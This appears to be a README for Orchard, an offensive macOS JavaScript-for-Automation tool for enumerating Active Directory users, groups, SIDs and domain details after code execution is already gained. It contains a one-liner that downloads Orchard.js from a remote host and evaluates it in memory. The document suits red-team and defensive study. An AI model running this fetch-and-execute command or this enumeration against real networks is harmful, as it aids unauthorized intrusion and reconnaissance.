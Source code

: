 # Orchard
JavaScript for Automation (JXA) tool to do Active Directory enumeration.

# Purpose
Live off the land for macOS. This program allows users to do Active Directory enumeration via macOS' JXA (JavaScript for Automation) code. This is the newest version of AppleScript, and thus has very poor documentation on the web. 

# Execution
Host the Orchard.js code somewhere you can access and pull it into a scripting session like so:
```JavaScript
testmac: ~$ osascript -l JavaScript -i
>> eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.56.1:8080/Orchard.js')),$.NSUTF8StringEncoding)));
=> true
>> Get_CurrentDomain();
=> "test.local"
>>
```
This requires the user to already have execution on the machine. Additionally, the capitalization for JavaScript in the first command is extremely important. **All of JXA is case sensitive.** The second line does an HTTP GET request for Orchard.js and loads the functions into the current session. If you just want to execute a single line (if there's only one function you want to execute for example) you can do the following instead:
```JavaScript
testmac: ~$ osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.56.1:8080/Orchard.js')),$.NSUTF8StringEncoding))); Get_CurrentDomain();"
```

## Execution Methods
All of the commands provide an API parameter. Right now they all default to *false* and changing them to *true* won't do anything. My first goal was to get everything implemented using the native macOS binaries, then I will go back and start implementing the same techniques using the Objective-C bridge to leverage API calls.

This means that every command does the following: `currApp.doShellScript(command);`. This will execute the necessary shell commands to accomplish the function goals. **Note:** From my testing, this doesn't spawn a Terminal.app window, but I make no guarantees.

## Calling a Function
After you've imported the Orchard.js code into your current session, you can call any of the functions with a slight tweak to normal JavaScript function calls. I wanted to make the code a bit more python-esque, so I modified the calling convention. You'll see functions defined as:

`function ConvertTo_SID({API=false, object=".\\root", type="Users} = {}) { code here; }`. This allows me to provide default values (if desired) to each function parameter as well as preventing them from being positional arguments like standard function calls. To call this function, simply do any of the following:
```JavaScript
ConvertTo_SID(); //Uses all of the default values to call the function
ConvertTo_SID({object:"TEST\\Domain Admins", type:"Groups"}); //leaves API as false, but sets object and type
ConvertTo_SID({type:"Groups",object:"TEST\\Domain Admins"}); //same as above - the order of the arguments doesn't matter
```
**Note1:** In defining a function this way, it's "name=value", but when calling the function it's "name:value". It's a little odd, I know, but you're most likely going to be just calling functions anyway.

**Note2:** Every function has a Help flag that can be used to get information about how to run the function

# Functions
| Function | Version Introduced | Description|
| ---------|:------------------|:-----------|
| ConvertTo_SID |1.0 |Convert Users, Groups, Or Computers to domain or local SIDs |
| ConvertFrom_SID |1.0 |Convert Users, Groups, or Computers from SIDs to names |
| Get_PathAcl |1.0 |Get linux and mac specific ACLs on a file or folder |
| Get_PathXattr |1.0 |Get mac specific extended attributes on a file or folder |
| Get_MountedVolumes |1.0 |Get the mounted volumes on the current computer |
| Set_MountVolume |1.0 |Mount a remote share on the current computer |
| Get_DomainUser |1.0 |List all domain users or get information on a specific user |
| Get_DomainComputer |1.0 |List all domain computers or get information on a specific computer |
| Get_LDAPSearch |1.0 |Execute a customized LDAP search query |
| Get_DomainOU |1.0 |List all domain organizational units or get information on a specific unit |
| Get_DomainSID |1.0 |Gets the SID of the domain by truncating the SID for the "Domain Admins" group |
| Get_DomainGroup |1.0 |List all domain groups or get information on a specific group |
| Get_DomainGroupMember |1.0 |Get all the members of a specific domain group |
| Get_CurrentDomain |1.0 |Get the fully qualified current domain |
| Get_CurrentNETBIOSDomain |1.0 |Get the NETBIOS name of the current domain |
| Get_Forest |1.0 |Get the fully qualified forest name |
